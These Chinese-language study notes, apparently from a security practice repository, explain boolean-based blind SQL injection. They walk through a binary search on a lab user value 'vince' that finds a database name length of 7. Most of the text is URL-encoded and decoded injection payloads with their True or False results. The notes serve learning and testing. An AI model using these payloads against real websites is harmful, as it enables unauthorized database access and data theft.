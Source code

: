 ### 1、布尔盲注
```yaml
根据返回值的不同（只返回True 或者 False）来进行判断注入的的内容是否正确
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_1.png)
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_2.png)
### 2、疑问
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_3.jpg)
```yaml
前面这个1就是本身这个功能可以查询到的值就行，比如你去查一个商品，这是网站本身就提供的功能，所以你肯定能知道一个正确的值
```
### 3、用二分法，判断数据库名称的长度
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_4.png)
```yaml
vince%27+and++length%28database%28%29%29%3C10%3B%23 == vince' and  length(database())<10;#
长度小于10，返回True
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_5.png)
```yaml
vince%27+and++length%28database%28%29%29%3C5%3B%23 == vince' and  length(database())<5;#
长度小于5，返回False
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_6.png)
```yaml
vince%27+and++length%28database%28%29%29%3C7%3B%23 == vince' and  length(database())<7;#
长度小于7，返回False
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_7.png)
```yaml
vince%27+and++length%28database%28%29%29%3C8%3B%23 == vince' and  length(database())<8;#
长度小于8，返回True
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_8.png)
#### 通过以上数据，可以判断，数据库名称，长度为7
```yaml
vince%27+and++length%28database%28%29%29%3D7%3B%23 == vince' and  length(database())=7;#
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_9.png)

